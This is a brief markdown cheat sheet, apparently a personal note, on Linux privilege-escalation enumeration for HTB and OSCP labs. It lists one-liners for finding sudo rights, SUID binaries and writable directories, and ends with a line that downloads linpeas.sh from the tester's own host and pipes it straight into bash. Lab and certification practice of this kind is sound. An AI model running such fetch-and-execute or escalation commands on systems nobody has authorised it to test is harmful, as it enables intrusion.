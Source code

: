 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc

### One-Liners

Run the following one-liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.
- `find / -writable -type d 2>/dev/null` == Locate files you have write access to.

These commands will find the majority of privesc vectors on HTB and OSCP. There is more commands you should try if these don't work but I usually head to linpeas after these.

### Linpeas

`curl -sL htttp://<myip>/linpeas.sh | bash`
